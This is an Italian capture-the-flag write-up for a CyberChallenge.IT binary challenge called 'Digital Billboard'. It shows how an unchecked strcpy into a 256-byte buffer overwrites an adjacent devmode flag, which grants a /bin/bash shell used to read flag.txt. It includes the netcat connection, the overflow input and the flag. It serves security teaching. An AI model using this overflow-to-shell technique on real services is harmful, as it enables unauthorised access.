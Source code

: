 # Writeup: SS_2.01 - Digital Billboard

## Overview
- **Categoria**: Binary (Remote Service)
- **Autore**: zxgio
- **Difficoltà**: 489
- **Stato**: Up (last checked: 16 minutes ago)
- **Servizio**: `nc billboard.challs.cyberchallenge.it 9120`

## Descrizione 📝
Il servizio remoto simula un "digital billboard" con alcuni comandi di base. Dal codice sorgente (fornito nella challenge) notiamo che la struttura `billboard` contiene:
```c
struct billboard {
    char text[256];
    char devmode;
};
struct billboard bb = { .text="Placeholder", .devmode=0 };
```
- `set_text <text>`: Copia `argv[1]` in `bb.text` tramite `strcpy`, senza controllare la lunghezza → **vulnerabile a buffer overflow**.
- `devmode`: Se impostato a 1, abilita la funzione `shell()` che esegue `/bin/bash`.

## Soluzione 🎯

### 1. Connessione al Servizio
```bash
nc billboard.challs.cyberchallenge.it 9120
```
Apparirà un prompt:
```
*
* Digital Billboard
*
We bought a new digital billboard for CTF advertisement.

Type "help" for help :)
>
```

### 2. Overflow per Impostare `devmode`
Il buffer `bb.text` ha lunghezza 256, ma `strcpy` non controlla i limiti. Se inviamo un input più lungo di 256 caratteri, sovrascriveremo la variabile `devmode` (il byte successivo) con un valore diverso da 0. Così abiliteremo la developer mode.

Esempio:
```text
> set_text AAAAAAAAAA... (256+ bytes)
Successfully set text to: AAAAAAAAAA... (lungo)
```
La sovrascrittura fa sì che `bb.devmode` diventi 1.

### 3. Attivazione di `devmode`
Ora eseguiamo:
```text
> devmode
Developer access to billboard granted.
```
A questo punto, il servizio esegue `system("/bin/bash")`, concedendoci una shell interattiva.

### 4. Lettura della Flag
All’interno della shell remota possiamo eseguire comandi:
```bash
ls
billboard.so
binary
flag.txt
cat flag.txt
CCIT{Digital Billboard from 34c3 Junior CTF - your_id}
```

## Flag 🏁
```
CCIT{Digital Billboard from 34c3 Junior CTF - your_id}
```

## Lezioni Apprese 📚
1. **Buffer Overflow Semplice**: L’uso di `strcpy` senza limiti su un array di dimensione fissa (`char text[256]`) porta a un classico stack-smashing o corruzione di variabili globali.
2. **Sovrascrittura di Variabili Vicine**: Se `devmode` è subito dopo `text`, un input eccessivo può settarlo a 1, concedendo privilegi elevati.
3. **Protezione Limitata**: Non esiste alcun check sulla lunghezza del testo inserito, consentendo l’overflow con facilità.

## Tools Utilizzati 🛠️
- **nc (netcat)**: Per connettersi al servizio remoto.
- **Codice Sorgente**: Per individuare la struttura e la vulnerabilità di `strcpy`.

---

*Writeup by Luca Crippa - Last Updated: 2024*
